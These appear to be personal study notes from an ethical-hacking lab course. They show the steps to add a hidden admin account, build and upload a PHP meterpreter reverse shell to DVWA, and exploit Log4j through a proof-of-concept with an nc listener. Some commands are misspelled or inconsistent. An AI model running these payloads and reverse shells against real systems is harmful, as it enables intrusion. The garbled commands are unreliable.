  | net user Test /Add
 | net localgroup Administrators Test /Add
 | net user Test 
 
### Task 8: Exploit a File Upload Vulnerability at Different Security Levels ==Important==
---
**LAB Manual 3**: Page 1652 

msfvemon -p php/meterpreter/reverse_tcp LHOST=192.168.0.108 LPORT=4444 -f raw
copy
pluma upload.php
paste
upload upload.php   #in_dvwa__file_upload
### Task 9: Gain Access by Exploiting Log4j Vulnerability
---
**Ubuntu**
1. sudo apt-get update
2. sudo apt-get install docker.io
> Clone log4j-shell-poc from github
3. cd log4j-shell-poc
4. sudo docker build -t log4j-shell-poc
5. sudo docker run --network host log4j-shell-poc
**Parrot**
> >Terminal 1
> Visit http://ubantu-ip:8080
> Clone log4j-shell-poc from github
1. cd log4j-shell-poc
2. tar -xf jdk-8u202-linux-x64.tar.gz
3. mv jdk1.8.0_202 /usr/bin
4. pluma poc.py
> In poc.py add or replace `/usr/bin/jdk1.8.0.202/bin/java` to **62th** line
> `/usr/bin/jdk1.8.0_20/bin/java` to 87th line.
> `/usr/bin/jdk1.8.0_20/bin/java` to 99th line.
5. nc -lvnp 9001
> > Terminal2
6. python3 poc.py --userip `your-ip` --8000 --lport 9001
> Copy **Send me** link.
> Paste it to email input at http://ubantu-ip:8080 and Press Login
> A **shell** should capture at **nc**.

# Lab 3: Detect Web Application Vulnerabilities using Various Web Application Security Tools
---
### Task 1: Detect Web Application vulnerabilities using N-Stalker Web Application Security Scanner
---
**LAB Manual 4** - Page 1694
